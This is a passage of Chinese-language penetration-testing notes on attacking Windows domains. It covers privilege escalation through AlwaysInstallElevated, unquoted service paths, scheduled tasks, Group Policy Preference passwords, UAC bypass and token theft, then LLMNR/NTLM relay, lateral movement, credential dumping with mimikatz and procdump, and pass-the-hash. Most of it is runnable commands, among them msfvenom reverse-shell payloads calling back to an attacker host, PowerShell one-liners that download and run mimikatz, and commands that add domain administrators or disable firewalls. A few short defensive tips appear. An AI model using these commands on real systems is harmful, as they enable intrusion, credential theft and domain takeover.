certutil.exe  -urlcache -split -f https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```



打开powershell，绕过执行策略并添加导入powerup模块

```
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerUP.ps1
```



使用Get-RegistryAlwaysInstallElevated命令检测

```
Get-RegistryAlwaysInstallElevated
```



综上确定激活了AlwaysInstallElevated

**（2）漏洞利用**

接下来，添加用户。运行Write-UserAddMSI模块，生成MSI文件

```
Write-UserAddMSI
```


这是，以普通用户权限运行UserAdd.msi，就会添加一个管理员账号

```
msiexec /q /i UserAdd.msi
```

msiexec常用选项：

* /quiet：在安装过程中禁止向用户发送信息
* /qn：不使用GUI
* /i：安装程序



也安装利用Metasploit的exploit\windows\local\always_install_elevated模块完成以上操作。使用该模块并设置会话参数，输入"run"命令，会返回一个System权限的Meterpreter。该模块会创建一个文件名随机的MSI，并在提权后删除所有已经部署的文件

**注册表键AlwaysInstallElevated漏洞防范**

* 只需禁用注册表键AlwaysInstallElevated，就可以阻止攻击者通过MSI文件进行提权

#### 可信任服务路径漏洞

```
	如“Trusted Service Paths”漏洞是由系统中的“CreateProcess”函数引起的，利用了windows文件路径解析的特性，并涉及了服务路径的文件/文件夹权限，存在缺陷的服务程序利用了属于可执行文件的文件/文件夹权限。如果权限合适，我们可以上传恶意可执行文件。简单讲就是查找系统服务文件中存在非引用路径。如果一个服务调用可执行文件，没有正确处理引用的全路径名，就可以利用这个漏洞。 
	windows服务通常都是以System权限运行的，所以系统在解析服务的二进制文件对应的文件路径中的空格的时候也会以系统权限进行解析。如果我们能利用这一特性，就有机会进行权限提升。
例如，有如下的文件路径:
C:\Program Files\Some Folder\Service.exe
对于上面文件路径中的每一个空格，windows都会尝试寻找并执行名字与空格前的名字向匹配的程序。操作系统会对文件路径中空格的所有可能进行尝试，直到找到一个匹配的程序。以上面的例子为例，windows会依次尝试确定和执行下面的程序：
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
所以如果我们能够上传一个适当命名的恶意可执行程序在受影响的目录，服务一旦重启，我们的恶意程序就会以system权限运行(大多数情况下)。
```

##### **查找错误配置的命令**

###### wmi查找含有漏洞的服务命令

```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```



根据上面可以看到，有"Office_POP3"一个服务对应的二进制文件路径没有引号包含起来，并且路径中包含空格。是存在该漏洞的。

###### PowerUp脚本

下载地址：https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1

需要提前下载好上传到目标主机上

```
Import-Module .\PowerUp.ps1
 Invoke-AllChecks
```



根据上面可以看到，有"Office_POP3"一个服务对应的二进制文件路径没有引号包含起来，并且路径中包含空格。是存在该漏洞的。

##### **漏洞利用方法**

###### msf中攻击模块

```
use exploit/windows/local/unquoted_service_path
set AutoRunScript migrate -f
set session 18
exploit
```


模块讲解：
利用两种方式获得system权限
1、如果meterpreter以管理员权限运行，该模块会创建并运行一个新的服务；
2、如果当前权限不允许创建服务，该模块会判断哪些服务的文件或文件夹的权限有问题，并允许对其进行劫持。
在创建服务或者劫持已经存在的服务时，该模块会创建一个可执行程序，其文件名和安装路径都是随机的。

##### **可信任服务路径漏洞防御**

* 可信任服务路径漏洞是由开发者没有将文件路径用引号引起来导致的。将文件路径用引号引起来，就不会出现这种问题了

参考文章：https://cloud.tencent.com/developer/article/1043376


#### 自动安装配置文件

```
	网络管理员在内网中给多台机器配置同一个环境时，通常不会逐台配置，而会使用脚本化批量部署的方法。在这一过程中，会使用安装配置条件。这些文件中包含了所有的安装配置信息，其中的一些还可以包含本地管理员账号和密码等信息。
```

这些文件列举如下：
C:\sysprep.inf
C:\sysprep\sysprep.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep\Unattend.xml
C:\Windows\system32\sysprep\Panther\Unattend.xml

##### **MSF枚举(需要提前获取到一个Meterpreter session)**

```
run post/windows/gather/enum_unattend
```



##### 手动查看

```
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
type C:\Windows\system32\sysprep.inf
type C:\Windows\system32\sysprep\sysprep.xml
type C:\unattend.xml
type C:\Windows\Panther\Unattend.xml
type C:\Windows\Panther\Unattended.xml
type C:\Windows\Panther\Unattend\Unattended.xml
type C:\Windows\Panther\Unattend\Unattend.xml
type C:\Windows\system32\sysprep\Unattend.xml
type C:\Windows\system32\sysprep\Panther\Unattend.xml
```


#### 计划任务

**1、可以使用如下命令查看计算机的计划任务**

```
schtasks /query /fo LIST /v
```



**2、执行如下命令，使用AccessChk工具查看C:\Microsoft\的权限配置情况。如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以使用恶意程序覆盖原来的程序，这样在下次计划执行时，就会以高权限来运行恶意程序。**

**AccessChk下载地址：https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk**

```
accesschk64.exe -dqv "C:\Microsoft" -accepteula
```

**从下图中可以看到C:\Microsoft\目录有可读可写权限**



**3、用msfvenom生成一个名为count.ps1的Powershell反弹Shell木马**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.23.1 lport=4444 -f PSH > count.ps1
```



**4、在Meterpreter会话上执行命令，将原文件进行备份，然后将生成的count.ps1后门文件上传到C:\Microsoft\目录下**

```
cp C:\\Microsoft\\count.ps1 C:\\Microsoft\\count.ps1.bak
upload security/.config/Typora/typora-user-images/image/security/count.ps1 C:\\Microsotf\\
```



**5、然后开启监听，等待计划任务执行后成功反弹Shell**

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.23.1
set lport 4444
exploit
```



**下面介绍几个常用的AccessChk命令**

​	第一次运行SysInterals工具包里的工具时，会弹出一个许可协议对话框。在这里，可以使用参数 /accepteula自动接受许可协议

```
accesschk.exe /accepteula
```

​	列出某个驱动器下所有权限配置有缺陷的文件夹

```
accesschk.exe -uwdsUsersc:\
accesschk.exe -uwdqs"AuthenticatedUsers"c:\
```

​	列出某个驱动器下所有权限配置有缺陷的文件

```
accesschk.exe -uwqsUsersc:\*.\
accesschk.exe -uwqs"AuthenticatedUsers"C:\*.*
```


### 组策略首选项提权

```
	sysvol是活动目录的一个用于存储公共文件服务器副本的共享文件夹，在域中的所有域控之间进行复制。sysvol文件夹是在安装活动目录时候自动创建的，主要用来存放登录脚本、组策略数据及其他域控需要的域信息。sysvol在所有经过身份验证的域用户或者域信任用户具有读权限的活动目录的域范围内共享。整个sysvol目录在所有的域控中是自动同步和共享的，所有组策略在：C:WindowsSYSVOLdomainPolicies目录中
	在一般域环境中所有机器都是脚本化批量部署的，数据量很大，为了方便对所有机器进行操作。网管会使用域策略进行统一的配置和管理，大多数组织在创建域环境后会要求加入域的计算机使用域用户密码进行登录验证。为保证本地管理员的安全性，这些组织的网络管理员往往会修改本地管理员面
	通过组策略修改密码，若攻击者获得一台机器的本地管理员密码，就相当于获取整个域中所有机器的本地管理员密码。
```

常⻅的组策略⾸选项

* 映射驱动器
* 创建本地⽤户 
* 数据源 
* 打印机配置 
* 创建/更新服务 
* 计划任务

#### **创建组策略，批量修改域中机器的本地管理员密码**

在Group Policy Management Editor中打开此计算机配置界面，新建一个组策略，更新本地计算机的组策略首选项密码

在`运行`中输入，`gpmc.msc`，进入组策略管理。右击`组策略`–>`新建`:



右击`test`(刚刚创建好的组策略对象)–>`编辑`,来到如下位置：



右击`本地用户和组`–>`新建`–>`本地用户`：



操作`–>`更新：

**其中设置密码为Test123**



回到组策略管理，设置组策略的对象，添加`Domain Computers`到组策略组中：

> Domain Computers为加入到域中的所有工作站和服务器，



查看组策略对象`test`的详细信息，可到该组策略对应的ID为：`{40916017-6F82-4617-941C-E493D2B5B578}`。



至此，组策略配置完成，输入gpupdate手动更新域中机器的组策略。

```
gpupdate
```



#### 组策略首选项提权

```
	管理员在域中新建了一个组策略，操作系统会自动在SYSVOL共享目录下生成一个XML文件，该文件保存了该策略更新后的密码。该密码使用了AES-256加密算法，安全性还是比较高的。但是，2012年微软在官方网站上公布了该密码的私钥，导致保存在XML文件中的密码的安全性大大降低了。任何域中成员和域信任的用户均可对共享目录进行访问，这就意味着，任何用户都可以访问保存在XML文件中的密码并将其破解，从而控制域中所有使用该账号/密码的本地管理员计算机。在SYSVOL中搜索，可以找到包含cpassword的XML文件
```

##### 手动查找cpassword

域内主机浏览SYSVOL共享目录，获取相关文件

```
\\Win-2i68kjfq1u4\sysvol\zzx.com\Policies\{40916017-6F82-4617-941C-E493D2B5B578}\Machine\Preferences\Groups\Groups.xml
```


打开Groups.xml文件，其中的关注点为`cpassword`:



此密码的加密方式为`AES-256`。尽管此加密十分难以破解，但是微软公司将其加密的密钥公开了。

**破解方式**

针对此密码，我们可以直接使用kali中自带的命令`gpp-decrypt`进行破解：



可以看到破解出的`Test123`

##### **msf模块**

可使用msf后渗透模块`run post/windows/gather/credentials/gpp`

```
run post/windows/gather/credentials/gpp
```




##### **PowerSploit中的Get-GPPPassword脚本**

检索通过组策略首选项推送的帐户的明文密码和其他信息

工具地址：https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

将Get-GPPPassword.ps1上传到目标主机C盘下，然后导出脚本执行

```
powershell -command "& { import-module C:\Get-GPPPassword.ps1; Get-GPPPassword }"
```




除了Groups.xml，还有几个组策略首选项文件有可选的cpassword属性，列举如下：

* Services/Services.xml
* ScheduledTasks\ScheduledTasks.xml
* Printers\Printers.xml
* Drives\Drives.xml
* DataSources\DataSources.xml

**组策略首选项提权的防御措施**

在用于管理组策略的计算机上安装 KB2962486补丁，防止新的凭据被放置在组策略首选项中。微软在2014年修复了组策略首选项提权漏洞，使用的方法就是不再将密码保存在组策略首选项中。

此外，针对Everyone访问权限进行设置，具体如下：

* 设置共享文件夹SYSVOL的访问权限
* 将包含组策略密码的 XML 文件从 SYSVOL 目录中删除
* 不要把密码放在所有域用户都有权访问的文件中
* 如果需要更改域中机器的本地管理员密码，建议使用LAPS


### 绕过UAC提权

需要 UAC 授权的操作如下：

* 配置 Windows Update

* 增加 / 删除⽤户

* 更改帐户类型

* 更改 UAC 设置

* 安装 ActiveX

* 安装 / 卸载程序

* 安装 设备驱动程序

* 将⽂件移动 / 复制到 program files 或 windows ⽬录下

* 查看其它⽤户的⽂件夹

  UAC 的四种设置要求

* 始终通知：每当有程序 需要使⽤⾼级别的权限 时都会提示本地⽤户

* 仅在程序 试图更改我的计算机时通知我：默认设置。当第三⽅程序 使⽤⾼级别的权限 时会提示本地⽤户

* 仅在程序试图更改我的计算机时通知我（不降低桌⾯的亮度）：与上相同，但提示时不降低桌⾯的亮度

* 从不提示：当⽤户为系统管理员时，所有程序 都会以最⾼权限运⾏

#### MSF绕过UAC模块

##### bypassuac模块

使用exploit/windows/local/bypassuac模块进行提权，当前用户必须在管理员组中，且UAC必须为默认设置("仅在程序试图更改我的计算机时通知我")。

攻击成功后会返回一个新的meterpreter ，执⾏getsystem, 即可获取system权限shell

```
use exploit/windows/local/bypassuac 
set target 1
set lport 7896
set session 3
set lhost 192.168.23.1
exploit
```



**注意事项：使用bypassuac模块时，当前用户需要在管理员组且UAC设置为默认，该模块会在目标主机生成一些文件，比较容易被杀毒软件拦截**


##### bypassuac_injection

该模块将通过进程注入，利用受信任的发布者证书绕过Windows UAC。 它将为我们生成另一个关闭UAC的shell（session 6）。该模块将直接运行在内存中的反射DLL中，由于它并不触碰硬盘，因此可以最大限度地降低被安全检测的概率。但该模块的使用需要选择正确的架构（对于SYSWOW64系统也是使用x64）。如果指定EXE::Custom DLL ，则应在单独的进程中启动payload后调用ExitProcess()。

```
use exploit/windows/local/bypassuac_injection
set session 3
set target 1
set payload windows/x64/meterpreter/reverse_tcp
set lport 9999
set lhost 192.168.23.1
exploit
```




##### RunAS模块(需要与用户交互)

使用exploit/windows/local/ask模块，创建一个可执行文件，目标机器会运行一个发起提升权限请求的程序，提升用户是否要继续运行，如果用户选择继续运行程序，就会返回一个高权限的Meterpreter Shell

```
use exploit/windows/local/ask
set session x
exploit
```



要想使用RunAs模块进行提权，当前用户必须在管理员组中或者知道管理员的密码，对UAC的设置没有要求。在使用RunAs模块时，需要使用EXE::Custom选项创建一个可执行文件（需进行免杀处理）


#### Nishang中的Invoke-PsUACme模块

下载地址：https://github.com/samratashok/nishang/blob/master/Escalation/Invoke-PsUACme.ps1

Invoke-PsUACme模块使用来自UACME项目的DLL绕过UAC，执行如下命令的前提条件是账户必须处在管理员组。

```
Import-Module .\Invoke-PsUACme.ps1;Invoke-PsUACme -verbose  #使用sysprep方法并执行默认的payload
Import-Module .\Invoke-PsUACme.ps1;Invoke-PsUACme -method oobe -verbose  #使用oobe方法并执行默认的payload
```




#### Empire中的bypassuac模块

调用privesc/bypassuac设置监听器参数，执⾏execute命令，攻击成功后会得到⼀个新的 shell ，回到agents下，执⾏list命令， username⼀栏中带*号打头的即已 bypassuac

```
usemodule privesc/bypassuac 
set Listener xxx
set Agent xxx
execute
```




#### Empire中的bypassuac_wscript 模块

这个模块的工作原理是，使用C:\Windows\wscript.exe执行payload，即绕过UAC，以管理员权限执行Payload。该模块只适用与操作系统为Windows 7的机器，尚没有对应的补丁，部分杀毒软件会对该模块的运行进行提升。攻击成功后会得到⼀个新的 shell ，回到agents下，执⾏list命令， username⼀栏中带*号打头的即已 bypassuac

```
usemodule powershell/privesc/bypassuac_wscript
set Listener xxx
set Agent xxx
execute
```




#### 绕过UAC提权的防御措施

* 在企业网络环境中，防止绕过UAC的最好方法是不让内网机器的使用者拥有管理员权限，从而降低系统遭受攻击的可能性。
* 在家庭网络环境中，建议使用非管理员权限进行日常活动，使用本地管理员权限登陆的用户，要将UAC设置成“始终通知”。


### 令牌窃取

#### Metasploit

在已获取 的 meterpreter 的环境中，输⼊ use incognito 命令，然后再输⼊ list_tokens -u 命令，列出可⽤的令牌
令牌分两种： Delegation Token 即授权令牌，⽀持交互式登陆； Impersonation Token 模拟令牌，⽀持⾮交互式会话
impersonate_token zzx\\\Administrator，执⾏ getuid 即为 administrator ⽤户

```
load incognito
list_tokens -u
impersonate_token zzx\\Administrator
getuid
```



#### Rotten Potato本地提权(适用于IIS用户和Mssql低权限用户)

**potato下载地址：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075**

在已获取 的 meterpreter 的环境中，输⼊ use incognito 命令，然后再输⼊ list_tokens -u 命令，列出可⽤的令牌

上传 potato.exe ⾄⽬标服务器，执⾏ execute -HC -f potato.exe 再执⾏ impersonate_token "NT AUTHORITY\\\SYSTEM", 再getuid 发现已经是 system 权限 了

```
load incognito
list_tokens -u
execute -HC -f potato.exe
impersonate_token "NT AUTHORITY\\SYSTEM
```




#### 添加域管理员

假设⽹络中设置了域管理进程，在 meterpreter 会话窗⼝中输⼊ "ps" 命令，查看域管理进程，并使⽤ migrate 命令迁移到该进程

```
migrate 3188
```



迁移成功后，输入shell命令进入到目标主机系统，输入如下命令创建域管理员用户

```
net user admin test123 /ad /domain
net group "domain admins" admin /ad /domain
net user admin /domain
```



在 meterepreter 环境中，使⽤ incognito来模拟域管理员，然后通过迭代系统中所有可⽤的身份令牌来添加域管理员

```
load incognito
add_user test2 Test123 -h 192.168.23.130
add_group_user "Domain Admins" test2 -h 92.168.23.130
```




#### Empire下的令牌窃取

通过 agents 就可查看目前得到的 shell，随后通过 interact 加 name 命令即可进入 shell 中，执⾏ mimikatz 命令，再输⼊ creds 命令，即可列举用户凭证信息。

```
mimikatz
creds
```



执⾏命令 pth <ID> 命令，就能窃取指定 id 对应⽤户的令牌 [ID 为列举出来的 CredID]

```
pth 2
```



同样，可以使用 ps 命令查看当前是否有域⽤户的进程正在运⾏，执⾏ steal_token <PID> 即可获取指定进程令牌

```
ps
steal_token <PID>
```



获取令牌后，输入"revtoself"命令，恢复令牌的权限

```
revtoself
```




#### 针对令牌窃取提权的防御措施如下

- 为了防止域管理员的令牌被窃取，应该禁止域管理员登录其它主机。如果登录了，使用完后应该及时重启电脑，从而把令牌清除。
- 及时安装微软推送的补丁
- 对于来路不明的或者危险的软件，既不要在系统中使用，也不要在虚拟机中使用
- 对令牌的时效性进行限制，以防止散列值被破解后泄露有效的令牌信息
- 对于令牌，应采取加密存储及多长验证保护
- 使用加密链路SSL/TLS传输令牌，以防止被中间人窃听


### 无凭证条件下的权限获取

#### 基础知识

**LLMNR协议**

```
	LLMNR是指本地链路多播名称解析，它是一种域名系统数据包格式。当局域网中的DNS服务器不可用时，DNS客户端会使用LLMNR解析本地网段中机器的名称，直到DNS服务器恢复正常为止。LLMNR还支持IPv6协议。
```

**LLMNR的工作过程如下：**

* DNS客户端在自己的内部名称缓存中查询名称
* 如果没有找到，主机将向主DNS发送名称查询请求
* 如果主DNS没有回应或者收到了错误的信息，主机会向备DNS发送查询请求
* 如果备DNS没有回应或者收到了错误的信息，将使用LLMNR进行解析
* 主机通过UDP协议向组播地址224.0.0.252的5355端口发送多播查询请求，以获取主机名所对应的IP地址。查询范围仅限于本地子网。
  本地子网中所有支持LLMNR的主机在收到查询请求后，会对比自己的主机名。如果不同，就丢弃；如果相同，就向查询主机发送包含自己IP地址的单播信息

**NetBIOS协议**

```
	NetBIOS是一种网络协议，一般用在十几台计算机组成的局域网中，可以根据NetBIOS协议广播获得计算机名称，并将其解析为相应的IP地址。在Windows NT以后版本的所有操作系统中均可使用NetBIOS，但是它不支持IPv6协议。
```

**NetBIOS提供三种服务：**

* NetBIOS-NS(名称服务)：主要用于名称注册和解析，以启动会话和分发数据包。该服务需要使用域名服务器来注册NetBIOS的名称。默认监听UDP的137端口，也可以使用TCP的137端口。
* Datagram Distibution Service(数据分发服务)：无连接服务。该服务负责进行错误检测和恢复，默认监听UDP的138端口。
* Session Service(会话服务)：允许两台计算机建立连接，允许电子邮件跨越多个数据包进行传输，提供错误与检测和恢复机制。默认使用TCP的139端口。

**Windows系统名称解析顺序为**

* 本地hosts文件（%windir%\System32\drivers\etc\hosts）
* DNS缓存/DNS服务器
* 链路本地多播名称解析（LLMNR）和NetBIOS名称服务（NBT-NS）

​      也就是说，如果在缓存中没有找到名称，DNS名称服务器又请求失败时，Windows系统就会通过链路本地多播名称解析（LLMNR）和Net-BIOS名称服务（NBT-NS）在本地进行名称解析。这时，客户端就会将未经认证的UDP广播到网络中，询问它是否为本地系统的名称，由于该过程未被认证，并且广播到整个网络，从而允许网络上的任何机器响应并声称是目标机器。当用户输入不存在、包含错误或者DNS中没有的主机名时，通过工具(responder)监听LLMNR和NetBIOS广播，攻击者可以伪装成受害者要访问的目标机器，并从而让受害者交出相应的登陆凭证。核心过程与arp欺骗类似，我们可以让攻击者作中间人，截获到客户端的Net-NTLMHash。

**Net-NTLM Hash**

```
	先阐述一下Net-NTLM Hash和NTLM Hash是不一样的。NTLM Hash是指Windows操作系统的Security Account Manager中保存的用户密码散列值。NTLM Hash通常保存在Windows的SAM文件或者NTDS.DIT数据库中，用于对访问资源的用户进行身份认证。Net-NTLM Hash是指在网络环境中经过NTLM认证的散列值。挑战/响应验证中的"响应"就包含Net-NTLM Hash。使用Responder抓取通常就是Net-NTLM Hash。攻击者无法使用该散列值进行哈希传递攻击，只能在使用Hashcat等工具得到明文后进行横向移动攻击。
```

**LLMNR和NetBIOS欺骗攻击**

```
	如果网络目标的DNS服务器因发生故障而无法提供服务时，会退回LLMNR和NBT-NS进行计算机名解析。
```

**Responder工具**

```
	Responder工具是监听LLMNR和NBT-NS协议的工具之一，能够抓取网络中所有LLMNR和NBT-NS请求并响应，获取最初的账户凭证。Responder使用内置SMB认证服务器、MSSQL认证服务器、HTTP认证服务器、HTTPS认证服务器、LDAP认证服务器、DNS认证服务器、WPAD认证服务器，以及FTP、POP3、IMAP、SMTP等服务器，收集目标网络中计算机的凭据，还可以通过Multi-Relay功能在目标系统上执行命令。
```

#### Net-NTLM Hash获取及破解

**实验环境：**

攻击机(Kali Linux)：192.168.23.1

目标主机(Windows 2012)：192.168.23.130

**1、攻击机Kali下载Responder**

```
git clone https://github.com/lgandx/Responder.git.git
```



**2、在攻击机Kali上使用 responder 工具开启监听**

```
python2 Responder.py -I eth0 -v -f
```

- -I：指定使用的网卡
- -f：允许攻击者查看受害者的主机指纹
- -v：显示详细信息

ON代表服务正在监听，Off代表服务关闭监听



**3、当目标主机访问了一个不存在的资源，会检查内部名称缓存和DNS也没有找到后，就会通过LLMNR和NetBIOS，在局域网中进行搜索。**



**4、此时回到攻击机Kali中，可以看到responder已经捕获到了目标主机的Net-NTLM Hash值**



将获取到的Net-NTLM Hash值保存为hash.txt，使用hashcat来暴力破解

**5、使用hashcat工具破解Net-NTLM Hash值，得到明文密码Test123**

```
hashcat -m 5600 hash.txt password.txt    //hash.txt存在获取到的Net-NTLM Hash值，password.txt为密码字典
```




#### NTLM Relay(中继)攻击

```
	需要不同机器之间存在信任关系，通常用在域环境中，例如攻击者获取域控主机的Net-NTLM hash，然后转发给域内的普通用户，进而获得域内普通用户的shell。
	利用条件：目标主机关闭smb签名，通常个人pc都是关闭的。
```

**实验环境：**

攻击机(Kali Linux)：192.168.23.1

域内主机(Windows 2008)：192.168.23.128

域控主机(Windows 2012)：192.168.23.130

**1、使用Responder中的RunFinger.py脚本来扫描目标主机是否关闭了SMB签名**

```
python2 RunFinger.py -i 192.168.23.0/24
```

**2、编辑Responder.conf文件，设置smb和http为Off**



**3、在Kali攻击机上使用Responder开启监听**

```
python2 Responder.py -I vmnet14 
```



**4、使用Responder的MultiRelay模块，指向一台域内主机**

```
python2 MultiRelay.py -t 192.168.23.128 -u ALL
```



**5、在域控server2012上建立文件共享请求，kali即可接收到192.168.23.128的sytem shell**




## 五、横向移动

### Windows横向移动常用命令

```
##IPC连接
IPC$的利用条件：
（1）开启了139，445端口
（2）管理员开启了默认共享
IPC$连接错误原因：
（1）用户名或密码错误
（2）目标没有打开IPC$共享
（3）不能成功连接目标的139、445端口
（4）命令输入错误
net use \\1.1.1.1 "password" /user:administarot   //与1.1.1.1主机建立IPC连接
net use   //查看已建立的IPC连接
net use \\1.1.1.1\ipc$   //断开与1.1.1.1主机的会话


##dir命令
dir \\1.1.1.1\c$   //查看1.1.1.1主机C盘共享，需建立好IPC连接

##tasklist
tasklist /$ \\1.1.1.1 /U administrator /P 123456 //查看1.1.1.1主机进程

##at
net time \\1.1.1.1   //查看1.1.1.1主机时间
copy shell.exe \\1.1.1.1\c$   //复制shell.exe文件到1.1.1.1主机上
at \\1.1.1.1 16:40 c:\shell.exe   //设置计划任务在16:40分启动shell.exe文件 
at \\1.1.1.1 7(计划任务ID号) /delete  //删除计划任务

##schtasks
schtasks ./create /s 1.1.1.1 /tn test /sc onstart /tr c:\shell.exe /ru system /f   //建立计划任务，开机时以system用户权限启动test计划任务
schtasks /run /s 1.1.1.1 /i /tn "test"   //启动test计划任务
schtasks /delete /s 1.1.1.1 /tn "test" /f

##sc
sc \\[主机名/IP] create [servicename] binpath="[path]"   //创建计划任务启动程序
sc \\WIN-ENS2VR5TR4N create bindshell binpath="c:\bind.exe"  //注意这里的格式，“=”后面是必须空一格的，否则会出现错误。
sc \\[主机名/IP] start bindshell   //开启bindshell服务
sc \\[主机名/IP] config bindshell start= auto   //设置bindshell服务为自动运行
sc \\[主机名/IP] create firewall binpath= "netsh advfirewall set allprofiles state off"   //关闭防火墙


##netsh
netsh -r 192.168.124.3 -u TEST\administrator -p 123 advfirewall set currentprofile firewallpolicy allowinbound,allowoutbound //关闭防火墙

##net
#创建用户
net user hack 123 /add   //创建hack用户
net localgroup administrators hack /add   //将hack用户添加到管理员组内
net user guest /active:yes   //启用guest来宾用户
net user hacker Passowd@123 /add /domain   //添加域用户
net group "domain admins" hacker /add /domain   //将域hacker用户添加到管理员组

#启动停止服务
net start   //查看开启的服务
net start telnet   //查看telnet服务
net stop telnet   //停止telnet服务
net start "Windows Firewall"   //开启防火墙服务
net stop "Windows Firewall"   //停止防火墙服务
```

### Windows系统Hash获取(需要系统权限)

```
	Windows操作系统通常使用两种方法对用户的明文密码进行加密处理。在域环境中，用户信息存储在ntds.dit中，加密后卫散列值。
要想在windows操作系统中抓取散列值或明文密码，必须将权限提升至system。本地用户名、散列值和其他安全验证信息都保存在SAM文件中。		lsass.exe进程用于实现windows的安全策略（本地安全策略和登录策略）。可以用工具将散列值和明文密码从内存中的lsass.exe进程或者sam文件中导出
	在Windows系统中，hash的结构通常为：username:Rid:LMHASH:NTHASH
```

#### Getpass获取明文密码（下载后上传到目标主机上运行）

源码下载地址：https://github.com/QAX-A-Team/getpass

```
Getpass.exe
```


#### PwDump7获取NTLM Hash

下载PwDump7后上传到目标主机上运行，抓取到的Hash即可以使用彩虹表爆破，也可以用作PTH传递登录

```
PwDump7.exe
```



#### 通过导出SAM和System文件读取密码

**1、导出SAM和System文件**

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```



**2、通过mimikatz.exe读取文件**

**mimikatz下载地址：https://github.com/gentilkiwi/mimikatz.git**

将导出的hive文件和mimikatz.exe放同一目录下

```
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive"
```



#### mimikatz读取在线SAM文件

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" 
```



#### Procdump+mimikat离线读取lsass.dmp文件(常用)

**1、导出lsass.dmp文件**

方法一：Windows NT 6中，任务管理器中找到lsass.exe进程，右键选择“Create Dump File”



**方法二：通过Procdump具导出**

下载地址：https://download.sysinternals.com/files/Procdump.zip

```
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```



**2、mimikatz读取lsass文件**

将mimikatz.exe和lsass.dump文件放同一目录下

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```


#### Powershell加载Get-PassHashes获取Hash

**离线获取Hash**

脚本下载地址：https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1

```
Import-Module .\Get-PassHashes.ps1 
Get-PassHashe
```



**在线获取Hash**

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```



#### PowerShell加载mimikatz抓取Hash

脚本下载地址：https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

**远程在线抓取**

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```



#### 在线破解哈希网站

```
https://www.objectif-securite.ch/en/ophcrack
http://cracker.offensive-security.com/index.php
```


#### Windows系统Hash获取防范

* **更新KB2871997补丁：微软为了防止用户的明文密码在内存中泄露，发布了KB2871997补丁，关闭了Wdigest功能。Windows Server 2012及以上版本默认关闭Wdigest，使攻击者无法从内存中获取明文密码。Windows Server 2012以下版本，如果安装了KB2871997补丁，攻击者同样无法获取明文密码。**
* **关闭Wdigest Auth**

​     如果无法更新补丁，需要手动关闭Wdigest Auth，在CMD中输入以下命令：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

更改完成后注销重新登录即可


### 哈希传递攻击（pass the hash）

```
	哈希传递攻击是基于NTLM认证的一种攻击方式。哈希传递攻击的利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用NTLM认证的一种缺陷，利用用户的密码哈希值来进行NTLM认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器。
```

**这类攻击适用于：**

* 域/工作组环境
* 可以获得hash，但是条件不允许对hash爆破
* 内网中存在和当前机器相同的密码

#### NTLM Hash哈希传递

实验场景一：
域名：zzx.com
攻击机：192.168.23.121
域控IP：192.168.23.130
域控主机名：WIN-2I68KJFQ1U4
用户名：administrator
NTLM HASH：3b1da22b1973c0bb86d4a9b6a9ae65f6

##### Mimikatz哈希传递查看域控文件目录

mimikatz的pth功能需要本地管理员权限，这是由它的实现机制决定的，需要先获得高权限进程lsass.exe的信息

**1、攻击机尝试访问域控，显示拒绝访问**

```
dir \\WIN-2I68KJFQ1U4\c$
```



**2、运行mimikatz工具来进行哈希传递**

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:"zzx.com" /ntlm:3b1da22b1973c0bb86d4a9b6a9ae65f6" "exit"
```



**3、再次用`dir \\WIN-2I68KJFQ1U4\c$`访问域控，成功获得了域控的访问权限**

```
dir \\WIN-2I68KJFQ1U4\c$
```



参考文章：

https://cloud.tencent.com/developer/article/1829649

https://xz.aliyun.com/t/8574#toc-2


#### AES-256密钥哈希传递

**只适用于域环境，并且目标主机需要安装 KB2871997补丁**

实验场景二：
域名：zzx.com
攻击机：192.168.23.129
域控IP：192.168.23.130
域控主机名：WIN-2I68KJFQ1U4
用户名：administrator
AES-256密钥：95a00b732c950853d2bd51d562174bae0bedce38a850e94fefddcec6defb247b

**1、攻击机用`dir \\WIN-2I68KJFQ1U4\c$`查看域控C盘文件，显示拒绝访问**

```
dir \\WIN-2I68KJFQ1U4\c$
```



**2、运行mimikatz工具进行哈希传递攻击**

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:zzx.com /user:administrator /aes256:95a00b732c950853d2bd51d562174bae0bedce38a850e94fefddcec6defb247b"
```



**3、再次用`dir \\WIN-2I68KJFQ1U4\c$`查看域控C盘文件，成功获得了域控的访问权限**

```
